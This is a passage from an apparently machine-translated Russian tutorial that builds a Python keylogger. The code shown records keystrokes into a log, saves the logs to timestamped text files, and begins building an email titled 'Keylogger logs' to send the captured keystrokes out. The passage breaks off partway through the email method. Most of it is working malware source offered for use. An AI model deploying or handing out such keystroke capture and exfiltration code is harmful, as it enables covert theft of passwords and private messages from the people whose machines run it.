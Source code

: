                 name = "[ENTER]\n"
            elif name == "decimal":
                name = "."
            else:
                # replace spaces with underscores
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"
        # finally, add the key name to our global `self.log` variable
        self.log += name
Поэтому всякий раз, когда клавиша отпускается, нажатая кнопка добавляется к .log строковой переменной.

Если мы решим сообщить о наших ключевых журналах в локальный файл, за это отвечают следующие методы:

    def update_filename(self):
        # construct the filename to be identified by start & end datetimes
        start_dt_str = str(self.start_dt)[:-7].replace(" ", "-").replace(":", "")
        end_dt_str = str(self.end_dt)[:-7].replace(" ", "-").replace(":", "")
        self.filename = f"keylog-{start_dt_str}_{end_dt_str}"

    def report_to_file(self):
        """This method creates a log file in the current directory that contains
        the current keylogs in the `self.log` variable"""
        # open the file in write mode (create it)
        with open(f"{self.filename}.txt", "w") as f:
            # write the keylogs to the file
            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")
Связанные с: Получите этический взлом с помощью электронной книги Python.
Метод update_filename() прост; берем записанные даты и преобразуем их в читаемую строку. После этого мы создаем имя файла на основе этих дат, которое мы будем использовать для именования наших файлов ведения журнала.

Метод report_to_file() создает новый файл с именем self.filename и сохраняет там журналы ключей.

Затем нам нужно будет реализовать метод, который, учитывая сообщение (в данном случае журналы ключей), отправляет его по электронной почте (перейдите к этому руководству для получения дополнительной информации о том, как это делается):

    def prepare_mail(self, message):
        """Utility function to construct a MIMEMultipart from a text
        It creates an HTML version as well as text version
        to be sent as an email"""
        msg = MIMEMultipart("alternative")
        msg["From"] = EMAIL_ADDRESS
        msg["To"] = EMAIL_ADDRESS
        msg["Subject"] = "Keylogger logs"
        # simple paragraph, feel free to edit
        html = f"<p>{message}</p>"
        text_part = MIMEText(message, "plain")
        html_part = MIMEText(html, "html")
        msg.attach(text_part)
        msg.attach(html_part)